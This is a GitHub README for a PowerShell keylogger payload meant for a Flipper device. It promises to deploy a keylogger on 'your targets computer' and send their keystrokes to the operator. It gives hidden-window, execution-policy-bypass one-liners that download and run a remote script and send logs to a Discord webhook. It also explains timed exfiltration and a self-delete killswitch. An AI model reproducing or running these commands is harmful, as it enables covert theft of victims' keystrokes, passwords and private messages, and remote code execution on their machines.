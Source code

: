 ![Logo](https://github.com/I-Am-Jakoby/hak5-submissions/blob/main/Assets/logo-170-px.png?raw=true)

<!-- TABLE OF CONTENTS -->
<details>
  <summary>Table of Contents</summary>
  <ol>
    <li><a href="#Description">Description</a></li>
    <li><a href="#getting-started">Getting Started</a></li>
    <li><a href="#Contributing">Contributing</a></li>
    <li><a href="#Version-History">Version History</a></li>
    <li><a href="#Contact">Contact</a></li>
    <li><a href="#Acknowledgments">Acknowledgments</a></li>
  </ol>
</details>

# Keylogger 

This is a Powershell based keylogger that exfiltrates the logs to discord

## Description

Quickly with just ONE line of code you can deploy a keylogger on your targets computer 

Complete with custom logging times, and self destruct feature

Just move the `keylogger.txt` file over to your flipper and you are good to go

## Getting Started

### Dependencies

* Windows 10,11

<p align="right">(<a href="#top">back to top</a>)</p>

### Executing program

* Plug in your device
* 15 seconds later you have their keystrokes being sent to you

This is the basic command to install the keylogger and provide the webhook for the keystrokes to be sent back to you

* `$dc=''` is the variable where you plug in your discord webhook 
* These can tend to be pretty long: 
    
    "`https://discord.com/api/webhooks/1041572355253274356/hLhWPx-jrl6MKvpck-skir6f8C1ZWfGoRc035oj_djk9ric6j3efu43O-x-Iq597hMtu`"
* You can use the webhook shortening service on my website [HERE](https://link.iamjakoby.com/)

Where it will return something shorter like this:

`https://link.iamjakoby.com/xxxx`

```
powershell -w h -NoP -Ep Bypass $dc='https://link.iamjakoby.com/xxxx';iwr "https://jakoby.lol/m2m" | iex
```
### ADDITIONAL PARAMETERS

The payload is set to send the logs collected every hour on the hour

* You maybe use the `$log` variable to specify a certain time instead (Use this for testing)
* ex: `$log="09:00 pm"`  <-- This will send the log every night at 9pm

You also have the option of setting up a killswitch to have the keylogger self delete at a certain time and date 

`$ks="12/25/2022 10:00:00 PM"`  <-- This will make the keylogger self delete at 10pm on December 25th

Calling the script with both a `log` time and `killswitch` will look something like this: 
 
```
powershell -w h -NoP -Ep Bypass -command "$dc='https://link.iamjakoby.com/xxxx';$log='09:00 pm';$ks='12/25/2022 10:00:00 PM';iwr 'https://jakoby.lol/m2m' | iex"
```
### DELETING THE KEYLOGGER

Just hold `Left Control` + `Right Control` for 5 seconds untill the notification box pops up

<img src= https://github.com/I-Am-Jakoby/I-Am-Jakoby/raw/main/Assets/keylogger/kkl.png width="400" alt="C#" />



<p align="right">(<a href="#top">back to top</a>)</p>

## Contributing

All contributors names will be listed here

I am Jakoby

<p align="right">(<a href="#top">back to top</a>)</p>

## Version History

* 0.1
    * Initial Release

<p align="right">(<a href="#top">back to top</a>)</p>

<!-- CONTACT -->
## Contact

<h2 align="center">📱 My Socials 📱</h2>
<div align=center>
<table>
  <tr>
    <td align="center" width="96">
      <a href="https://youtube.com/c/IamJakoby?sub_confirmation=1">
        <img src=https://github.com/I-Am-Jakoby/I-Am-Jakoby/blob/main/img/youtube-svgrepo-com.svg width="48" height="48" alt="C#" />
      </a>
      <br>YouTube
    </td>
    <td align="center" width="96">
      <a href="https://twitter.com/I_Am_Jakoby">
        <img src=https://github.com/I-Am-Jakoby/I-Am-Jakoby/blob/main/img/twitter.png width="48" height="48" alt="Python" />
      </a>
      <br>Twitter
    </td>
    <td align="center" width="96">
      <a href="https://www.instagram.com/i_am_jakoby/">
        <img src=https://github.com/I-Am-Jakoby/I-Am-Jakoby/blob/main/img/insta.png width="48" height="48" alt="Golang" />
      </a>
      <br>Instagram
    </td>
    <td align="center" width="96">
      <a href="https://discord.gg/MYYER2ZcJF">
        <img src=https://github.com/I-Am-Jakoby/I-Am-Jakoby/blob/main/img/discord-v2-svgrepo-com.svg width="48" height="48" alt="Jsonnet" />
      </a>
      <br>Discord
    </td>
    <td align="center" width="96">
      <a href="https://www.tiktok.com/@i_am_jakoby?lang=en">
        <img src=https://github.com/I-Am-Jakoby/I-Am-Jakoby/raw/main/img/tiktok.svg width="48" height="48" alt="Jsonnet" />
      </a>
      <br>TikTok
    </td>    
  </tr>
</table>
</div>



<p align="right">(<a href="#top">back to top</a>)</p>

<!-- ACKNOWLEDGMENTS -->
## Acknowledgments

* [Hak5](https://hak5.org/)
* [MG](https://github.com/OMG-MG)

<p align="right">(<a href="#top">back to top</a>)</p>

